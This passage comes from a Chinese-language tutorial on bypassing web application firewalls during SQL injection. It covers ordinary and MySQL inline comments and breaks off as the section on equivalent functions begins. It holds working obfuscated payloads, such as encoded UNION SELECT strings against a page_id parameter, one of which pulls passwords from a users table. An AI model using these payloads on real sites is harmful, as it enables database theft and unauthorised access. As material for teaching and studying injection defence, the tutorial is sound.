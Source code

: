 ![](../pictures/emoji2.png)  
  
d) 使用注释
  
看一下常见的用于注释的符号有哪些
  
`//, -- , /**/, #, --+,--  -, ;--a` 
  

  
1.普通注释
```  
z.com/index.php?page_id=-15 %55nION/**/%53ElecT 1,2,3,4 
'union%a0select pass from users#
```
  

  
`/**/`在构造的查询语句中插入注释规避对空格的依赖，或关键字识别`#`、`--+`用于终结语句的查询
  

  
2.内联注释
  
相比普通注释内联注释用的更多`/!content/`，只有MySQL会正常识别content的内容其他 
  
```
  
index.php?page_id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3 
  
index.php?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,3,4…
  
```
  
两个示例中前者使用内联注释，后者还用到了普通注释。使用注释一个很有用的做法便是对关键字的拆分，要做到这一点后面讨论的特殊符号也能实现，当然前提是包括`/`、`*` 在内的这些字符能正常使用。
  

  
e)等价函数
  